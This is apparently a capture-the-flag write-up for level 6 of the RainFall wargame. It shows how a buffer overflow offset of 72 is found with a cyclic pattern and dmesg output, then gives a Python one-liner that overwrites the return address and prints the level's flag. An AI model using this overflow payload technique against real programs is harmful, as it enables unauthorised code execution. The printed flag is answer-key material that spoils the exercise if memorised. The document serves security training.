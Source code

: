 # LEVEL6

```
level6@RainFall:~$ ./level6 AAA
Nope
level6@RainFall:~$ ./level6 $(python -c 'print("A"*64)')
Nope
```

https://wiremask.eu/tools/buffer-overflow-pattern-generator/


```
Generate a pattern

length: 100

Pattern: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

level6@RainFall:~$ dmesg

[28344.465079] level6[6661]: segfault at 41346341 ip 42424242 sp bffff6dc error 14

Find the offset

Register value: 41346341

Offset: 72
```


```
level6@RainFall:~$ ./level6 $(python -c 'print("A"*72+"\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```


